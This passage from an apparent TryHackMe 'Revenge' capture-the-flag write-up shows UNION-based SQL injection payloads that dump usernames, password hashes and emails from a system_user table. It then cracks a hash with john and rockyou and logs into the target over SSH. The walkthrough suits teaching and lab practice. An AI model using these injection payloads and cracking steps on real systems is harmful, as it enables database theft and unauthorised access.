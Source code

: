 ```py
            soup = BeautifulSoup(request.text, 'html.parser')
            result = soup.p.text

            print(result)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Revenge]
└─# python3 enum_database.py
id
username
_password
email
[-] Payload failed: 0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,column_name FROM information_schema.columns WHERE table_name='system_user' LIMIT 1 OFFSET 4-- -
```

- Database `duckyinc`'s table `system_user` columns: `id`, `username`, `_password`, `email`

**Let's extract all data from table `system_user`!**
```py
payload = f"""0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,CONCAT(id,':',username,':',_password,':',email) FROM system_user LIMIT 1 OFFSET {position}-- -"""
```

> Note: The `CONCAT()` is the string concatenation. You can display multiple columns' data in a single column.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Revenge]
└─# python3 enum_database.py
1:server-admin:$2a$08${Redacted}:sadmin@duckyinc.org
2:kmotley:$2a$12${Redacted}:kmotley@duckyinc.org
3:dhughes:$2a$12${Redacted}:dhughes@duckyinc.org
[-] Payload failed: 0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,CONCAT(id,':',username,':',_password,':',email) FROM system_user LIMIT 1 OFFSET 3-- -
```

**Nice! Let's crack those hashes!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Revenge]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt server-admin.txt            
[...]
{Redacted}         (server-admin)     
```

Hmm... I can only cracked `server-admin`'s hash.

**Let's use that password to SSH into the target machine!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Revenge]
└─# ssh server-admin@$RHOSTS
[...]
server-admin@10.10.151.170's password:
[...]
################################################################################
#			 Ducky Inc. Web Server 00080012			       #
#	     This server is for authorized Ducky Inc. employees only	       #
#		   All actiions are being monitored and recorded	       #
#		     IP and MAC addresses have been logged		       #
################################################################################
Last login: Wed Aug 12 20:09:36 2020 from 192.168.86.65
server-admin@duckyinc:~$ whoami;hostname;id;ip a
server-admin
duckyinc
```